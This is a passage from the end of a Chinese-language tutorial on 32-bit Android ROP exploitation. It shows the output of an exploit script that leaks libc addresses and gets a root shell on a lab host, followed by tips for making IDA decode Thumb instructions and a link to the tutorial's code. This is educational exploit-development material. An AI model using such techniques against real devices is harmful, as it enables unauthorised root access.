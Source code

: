 执行exp的结果如下：

```
#!bash
$ python level9.py 
[+] Opening connection to 30.10.20.253 on port 10001: Done
write_addr=0xb6f27280
r0=0xb6f469b4
system_addr=0xb6f2c3a5
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0 
```

## 0x05 Android ROP调试技巧

因为gdb对thumb指令的解析并不好，所以我还是推荐用ida来进行调试。如果你还不会用ida，可以先看一下我之前写的关于ida调试的文章：

```
安卓动态调试七种武器之孔雀翎– Ida pro 
http://drops.wooyun.org/tips/6840 
```

除此之外，还有个很重要的技巧就是如何让ida正确的解析指令。ida在很多时候并不知道需要解析的指令是thumb还是arm，有时候甚至都不知道是啥内容。

比如图中是libc.so中system的代码：

![](http://img0.tuicool.com/aEVvQzQ.png!web)

这段代码其实是thumb指令，但是我们怎么样才能让ida解析正确呢？方法就是用鼠标选中 `0xB6EE03A4` ，然后按 `alt+g` 键，然后将 `value` 改成 `0x1` 。这样的话，ida就会按照thumb指令来解析这段数据了。

![](http://img1.tuicool.com/2uqUV3.png!web)

我们随后选中那块数据然后按c键，就可以看到指令被正确的解析了。

![](http://img0.tuicool.com/rQ7bAzv.png!web)

## 0x06 总结

我们这篇文章介绍了32位android的ROP。在下一篇中我会继续带来64位arm和iOS上ROP的利用技巧，欢迎大家继续学习。另外文中涉及代码可在我的github下载:

[https://github.com/zhengmin1989/ROP_STEP_BY_STEP](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)